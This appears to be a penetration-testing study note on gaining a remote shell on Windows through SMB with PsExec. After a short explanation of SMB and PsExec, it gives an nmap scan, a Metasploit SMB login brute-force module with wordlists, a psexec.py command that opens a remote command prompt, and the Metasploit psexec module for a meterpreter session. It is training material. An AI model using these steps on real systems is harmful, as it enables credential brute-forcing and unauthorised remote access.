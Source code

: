 ```yaml
---
up: "[[Exploiting Windows Vulnerabilities]]"
---
```


# Exploiting SMB with PsExec

## SMB understanding

- Server Message Block: a network file sharing protocol used to facilitate the sharing of files on a network
- SMB uses port 445 (TCP) but can also ran on top of NetBIOS port 139
- SAMBA is the open source Linux implementation of SMB and allows Windows systems to access Linux shares and devices

### Authentication

- 2 levels of authentication
	- User Authentication
		- Users must provide a username and password in order to access a share
	- Share Authentication
		- Users must provide a password in order to access restricted share

## PsExec introduction

- [[PsExec]] is a lightweight telnet-replacement that allows you to execute processes on remote windows systems using any user's credentials
- Authentication is performed via SMB
- PsExec can be used to authenticate with the target and run commands or launch a remote command prompt
- Very similar to RDP but without GUI

## SMB Exploitation with PsExec

- To utilize PsExec we must first gain access to a Windows target and identify legitimate user accounts and their passwords or password hashes
- It can be done using various techniques but the most common is to do an SMB login brute force attack
- Every Windows machines have an `Administrator` account
- Only after obtaining credentials we can use PsExec

## Demonstration

Identify open ports:

```bash
nmap -sV -sC <ip>
```

SMB running on port 445.

Run [[Metasploit]]:

```bash
> use auxiliary/scanner/smb/smb_login
> set RHOSTS <ip>
> set USER_FILE common_users.txt
> set PASS_FILE unix_passwords.txt
> set VERBOSE false # to only print succeed
```

Now that we have valid credentials:

```bash
$ psexec.py <username>@<ip> cmd.exe
Password:
C:\Windows\system32>
```

To open a meterpreter session:

```bash
> use exploit/windows/smb/psexec
> set RHOSTS <ip>
> set SMBUser <username>
> set SMBPass <password>
```
